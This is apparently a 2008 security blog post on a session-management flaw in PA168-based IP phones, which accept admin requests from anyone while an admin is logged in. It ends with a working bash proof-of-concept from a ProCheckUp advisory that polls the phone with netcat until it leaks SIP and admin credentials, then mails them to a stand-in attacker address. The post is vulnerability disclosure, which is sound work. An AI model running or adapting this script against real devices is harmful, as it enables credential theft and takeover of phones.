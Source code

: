 ```yaml
---
title: Holes in Embedded Devices - Binary state session management
author: pagvac
date: Tue, 29 Jan 2008 09:52:22 GMT
template: post.pug
---
```


This type of vulnerability is similar to IP address-based session management holes which has been discussed in my [previous post](/blog/holes-in-embedded-devices-ip-based-session-management). It is similar in the sense that the web browser of the admin user who is currently logged into the vulnerable device doesn't send any auth data such as session IDs or passwords. However, this vulnerability is more serious as illustrated by the algorithm implemented by the session management mechanism of the vulnerable device:

    if (submitted username and submitted password) == (credentials on device config)
    then
    	do activate admin session until session times out
    

    The implications are fatal: the device blindly trusts administrative HTTP requests, while the administrative session is regarded as active. In other words, if the attacker submitted an administrative request to the target device while an admin user was logged in (admin session would be active), the device would happily accept such request as it has no means to differentiate between the requests coming from the legitimate admin and those coming from the attacker!

    In this case, the attacker doesn't need to share the same source IP address with the legitimate admin user, but rather the bad guy can launch an automated attack like the one illustrated in my previous post IP address-based session management from any source IP address. The only requirement is that the submitted HTTP request is well-crafted so it looks exactly like a legitimate request.

    A real example includes IP phones from several brands that are based on the PA168 chipset. Several popular vendors in Asia such as ATCOM and SOYO ship firmwares such as version 1.42 and 1.54 that is susceptible to this vulnerability. Since the attacker can now send the malicious HTTP request from any IP address, these IP phones could be attacked remotely, provided that their web interface was Internet-facing.

    The following proof-of-concept script was published with ProCheckUp [PR06-14](http://www.procheckup.com/Vulner_PR0614.php) advisory. Such script repeatedly submits a request to the target IP phone which returns the full configuration settings as soon as an admin user logs into the web interface of the target phone. The returned configuration settings include sensitive data such as SIP gateway, SIP credentials and the credentials required to manage the IP phone:

    #!/bin/bash

    host="192.168.10.1";
    attackers_email="attacker@evil-domain.foo"
    req="POST /g HTTP/1.0\r\nContent-length: 13\r\n\r\nback=++Back++\r\n\r\n";

    while true
    do
        res=`echo -en $req | nc -nv $host 80`;
        if echo $res | grep superpassword # if this gets returned, then we got the settings page with all SIP account and IP phone creds
        then
            echo "GOT IT!"
            echo $res > "admin-settings-page"
            echo $res | mail $attackers_email -s "PA168 IP Phone admin's settings page"
            exit 1
        else
            echo "bad luck"
        fi
        sleep 5
    done
